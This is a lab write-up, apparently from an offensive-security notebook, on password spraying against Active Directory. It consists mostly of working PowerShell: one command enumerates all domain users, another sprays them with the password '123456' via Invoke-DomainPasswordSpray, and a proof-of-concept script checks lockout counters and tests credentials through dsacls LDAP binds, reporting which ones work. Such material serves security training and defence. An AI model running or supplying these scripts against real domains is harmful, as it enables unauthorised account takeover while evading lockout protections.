 # Active Directory Password Spraying

This lab explores ways of password spraying against Active Directory accounts.

## Invoke-DomainSpray

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Get-ADUser -Properties name -Filter * | Select-Object -ExpandProperty name |  Out-File users.txt
type users.txt
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-20-21-29-13.png)

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Invoke-DomainPasswordSpray -UserList .\users.txt -Password 123456 -Verbose
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-20-21-32-37.png)

## Spraying using dsacls

While I was poking around with dsacls for enumerating AD object permissions

{% page-ref page="using-dsacls-to-check-ad-object-permissions.md" %}

I noticed that one could attempt to bind to LDAP using specific AD credentials, so a dirty AD password spraying POC came about:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
$domain = ((cmd /c set u)[-3] -split "=")[-1]
$pdc = ((nltest.exe /dcname:$domain) -split "\\\\")[1]
$lockoutBadPwdCount = ((net accounts /domain)[7] -split ":" -replace " ","")[1]
$password = "123456"

# (Get-Content users.txt)
"krbtgt","spotless" | % {
    $badPwdCount = Get-ADObject -SearchBase "cn=$_,cn=users,dc=$domain,dc=local" -Filter * -Properties badpwdcount -Server $pdc | Select-Object -ExpandProperty badpwdcount
    if ($badPwdCount -lt $lockoutBadPwdCount - 3) {
        $isInvalid = dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:$_@offense.local /passwd:$password | select-string -pattern "Invalid Credentials"
        if ($isInvalid -match "Invalid") {
            Write-Host "[-] Invalid Credentials for $_ : $password" -foreground red
        } else {
            Write-Host "[+] Working Credentials for $_ : $password" -foreground green
        }        
    }
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-20-00-10-10.png)

## Spraying with Start-Process

Similarly to dsacls, it's possible to spray passwords with `Start-Process` cmdlet and the help of PowerView's cmdlets:

{% hint style="info" %}
WIP
{% endhint %}

## References

{% embed url="https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1" %}

{% embed url="https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon" %}





